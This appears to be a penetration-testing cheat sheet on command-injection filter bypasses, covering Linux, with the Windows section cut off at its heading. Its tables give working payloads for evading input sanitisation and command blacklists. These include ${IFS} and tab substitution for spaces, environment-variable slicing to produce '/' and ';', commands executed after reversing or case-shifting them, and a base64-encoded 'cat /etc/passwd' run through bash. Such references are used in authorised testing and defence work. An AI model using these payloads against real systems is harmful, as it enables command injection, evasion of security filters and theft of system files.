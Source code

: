 ## Linux

### Filtered Character Bypass

|Code|Description|
|---|---|
|`printenv`|Can be used to view all environment variables|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`${IFS}`|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`)|
|`{ls,-la}`|Commas will be replaced with spaces|
|**Other Characters**||
|`${PATH:0:1}`|Will be replaced with `/`|
|`${LS_COLORS:10:1}`|Will be replaced with `;`|
|`$(tr '!-}' '"-~'<<<[)`|Shift character by one (`[` -> `\`)|

### Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or `"`|Total must be even|
|`$@` or `\`|Linux only|
|**Case Manipulation**||
|`$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`|Execute command regardless of cases|
|`$(a="WhOaMi";printf %s "${a,,}")`|Another variation of the technique|
|**Reversed Commands**||
|`echo 'whoami' \| rev`|Reverse a string|
|`$(rev<<<'imaohw')`|Execute reversed command|
|**Encoded Commands**||
|`echo -n 'cat /etc/passwd \| grep 33' \| base64`|Encode a string with base64|
|`bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`|Execute b64 encoded string|

## Windows

### Filtered Character Bypass
